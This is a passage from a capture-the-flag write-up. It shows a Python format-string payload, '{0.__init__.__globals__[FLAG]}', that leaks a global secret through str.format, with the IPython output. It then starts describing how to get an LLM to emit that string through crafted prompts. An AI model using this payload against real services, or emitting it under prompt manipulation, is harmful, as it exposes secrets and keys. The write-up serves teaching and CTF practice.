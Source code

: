 ```python
   ...:         user=None,
   ...:     )
   ...: ]
   ...:
   ...: rec=example_entries[0]

In [2]: '{0.time} {0.__init__.__globals__}'.format(rec)
```

And in the output we see our dummy flag:

![playground-flag.png](resources/playground-flag.png)

We can also get exactly that variable with the following payload:

```python
In [3]: '{0.time} {0.__init__.__globals__[FLAG]}'.format(rec)
Out[3]: '03/Feb/2023:20:59:59 +0000 dice{dummy}'
```

So, now we have to come up with some creative natural language text that when fed to the AI, it will make it produce the format string `{0.time} {0.__init__.__globals__[FLAG]}`.

Since I do not have an OpenAI key and the remote has proof of work that takes a while to solve, I just used ChatGPT with the provided prompt in the browser:

